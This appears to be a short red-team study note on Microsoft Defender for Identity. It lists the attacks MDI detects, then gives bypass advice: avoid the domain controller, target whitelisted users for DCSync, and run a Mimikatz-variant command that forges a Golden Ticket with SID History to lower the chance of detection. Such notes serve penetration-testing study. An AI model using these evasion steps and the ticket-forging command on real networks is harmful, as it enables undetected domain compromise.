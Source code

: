 ```yaml
---
tags:
  - detection-and-defense
cssclasses:
  - DCSync
  - OPTH
  - PTH
  - Kerberoasting
  - MimiKatz
---
```

- It identifies, detects and investigates advanced threats, compromised identities, and malicious insider actions directed at your organization
- MDI sensors are installed on DCs and Federation servers. Analysis and alerting is done in the Azure cloud.
- MDI can be used for detecting
	- Recon
	- Compromised credentials (Brute-Force, [[Kerberoasting]] etc.)
	- Lateral Movement (PTH, OPTH etc.)
	- Domain Dominance (DCSync, [[Golden Ticket]], [[Skeleton Key]] etc.)
	- Exfiltration
## Bypass
- The key is to avoid talking to the DC as long as possible and make the traffic that we generate appear benign.
- To bypass DCSync detection, target users which are whitelisted.
- If we have NTLM hash of a DC, we can extract NTLM hashes of any machine account using netsync.

#### [[Golden Ticket]]
- If we forge a Golden ticket with SID History of the Domain Controllers group and Enterprise Domain Controllers Group, there are less chances of detection by MDI

```batch
BetterSafetyKatz.exe "kerberos::golden /user:domain-controller-machine-account /id:1000 /sid:S-1-XXXXX /sids:S-1-XXXXX,S-1-XXX /krbtgt:<ntlm_hash> /ptt" "exit"
```

